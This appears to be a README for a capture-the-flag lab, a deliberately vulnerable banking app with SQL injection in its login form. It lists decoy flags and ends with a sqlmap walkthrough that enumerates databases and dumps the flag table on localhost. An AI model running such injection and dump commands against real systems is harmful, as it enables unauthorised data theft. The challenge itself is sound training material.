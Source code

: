 
## 🔍 Challenge Details

### **Database Schema**
- `users` table → 87 regular users + 1 admin  
- `system_flags` table → Contains the **real flag**  
- `transactions` table → Sample banking transactions  

---

### **Vulnerability Location**
- The SQL injection exists in the **login form** at:
  ```
  POST /login
  ```

---

### **Fake Flag Locations**
- `/robots.txt` → `RAZZ{y0U#H@v3$f()<]UNd^F@K3|FL4G}`
- `/sitemap.xml` → `RAZZ{y0U_H@v3^f(){UNd}/F@K3~FL4G}`
- HTML comments in page source
- `/admin` cookie
- `/backup` hidden page

---

### **SQLi Parameters**
- **6 fake vulnerable parameters** that return misleading data  
- **1 real vulnerable parameter** that leads to `system_flags`  

---

## 🛠️ Exploiting with SQLMap

### **Basic Commands**

```bash
# Install sqlmap (if missing)
sudo apt install sqlmap -y

# Test for SQL injection
sqlmap -u "http://localhost:5000/login" --data="username=admin&password=admin" --dbs

# Enumerate databases
sqlmap -u "http://localhost:5000/login" --data="username=admin&password=admin" --current-db

# Enumerate tables
sqlmap -u "http://localhost:5000/login" --data="username=admin&password=admin" -D razz_bank --tables

# Dump system_flags
sqlmap -u "http://localhost:5000/login" --data="username=admin&password=admin" -D razz_bank -T system_flags --dump
```

---